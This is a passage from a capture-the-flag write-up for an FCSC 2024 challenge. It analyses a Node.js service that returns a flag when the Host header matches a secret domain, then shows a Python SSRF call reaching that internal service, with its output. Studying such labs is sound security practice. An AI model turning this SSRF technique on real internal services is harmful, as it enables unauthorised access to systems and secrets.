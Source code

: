 

# Analysis of the 3 other services.  
The service we're most interested in is the one that returns the flag: 
- ``pong-flag.fcsc2024.fr``

It's a nodejs application, exposed internally on port 3000: 

```js
const express = require("express");
const app  = express();
const PORT = 3000;

app.use((req, res, next) => {
    if (req.headers["host"] !== `${process.env.FLAG_DOMAIN}.fcsc2024.fr:${PORT}`) {
        res.send("403 Forbidden!");
        return;
    }
    res.send(process.env.FLAG);
})

app.listen(PORT, () => {
    console.log(`Pong running on port ${PORT}`);
});
```

The application returns the flag if the `HOST` header of our request matches the machine's domain.

In the `docker-compose.yml` provided, the example domain is ``fake_domain``. Note the following comment: 
```
# not the same on the remote instance
```

We can confirm our understanding of the code by using ssrf: 

```python
ssrf(
    where='fake_domain.fcsc2024.fr:3000',
    options=urlenc(options)
)
```

*Output:* 
```bash
$ python3 pong_lab.py
HTTP/1.1 200 OK
Date: Fri, 12 Apr 2024 02:17:10 GMT
Server: Apache/2.4.59 (Unix)
X-Powered-By: PHP/8.2.17
Content-Length: 22
Connection: close
Content-Type: text/html; charset=UTF-8

FCSC{flag_placeholder}
```


[//]: <> (Wrote By Vozec 12/04/2024)
